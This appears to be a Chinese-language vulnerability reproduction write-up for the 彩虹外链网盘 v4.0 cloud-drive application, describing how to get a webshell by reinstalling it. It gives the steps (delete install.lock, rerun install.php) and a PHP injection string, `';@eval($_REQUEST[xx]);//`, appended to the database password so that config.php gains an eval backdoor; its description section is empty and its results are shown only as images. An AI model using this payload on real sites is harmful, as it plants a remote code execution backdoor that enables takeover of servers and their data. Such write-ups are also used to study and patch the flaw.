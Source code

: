 彩虹外链网盘 v4.0 重装getshell
==============================

一、漏洞简介
------------

二、漏洞影响
------------

彩虹外链网盘 v4.0

三、复现过程
------------

在删除install.lock后,访问install.php
其他的原来的读取的配置,密码后面加上`';@eval($_REQUEST[xx]);//`

![13.png](./resource/彩虹外链网盘v4.0重装getshell/media/rId24.png){width="5.833333333333333in"
height="4.9203926071741035in"}

此时的config.php如下,而且由于我们用的是原来的配置,网站不会崩

![14.png](./resource/彩虹外链网盘v4.0重装getshell/media/rId25.png){width="5.833333333333333in"
height="4.231375765529309in"}

代码执行成功

![15.png](./resource/彩虹外链网盘v4.0重装getshell/media/rId26.png){width="5.833333333333333in"
height="1.143261154855643in"}
